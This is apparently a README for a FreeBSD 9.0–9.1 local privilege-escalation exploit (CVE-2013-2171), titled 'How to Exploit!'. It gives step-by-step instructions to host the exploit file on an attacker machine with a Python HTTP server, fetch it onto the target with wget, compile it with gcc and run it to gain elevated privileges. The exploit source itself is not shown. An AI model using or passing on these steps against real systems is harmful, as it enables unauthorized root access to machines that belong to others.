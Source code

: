 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

How to Exploit!

##1° Check the kernel version
uname -a

##2° Transfer this file to target

Attacker machine -> python3 -m http.server 8080
Target machine -> wget IP:8080/26368.c

##3° Use GCC to compile the code 
gcc 26368.c -o exploit

##4° Run the exploit
./exploit
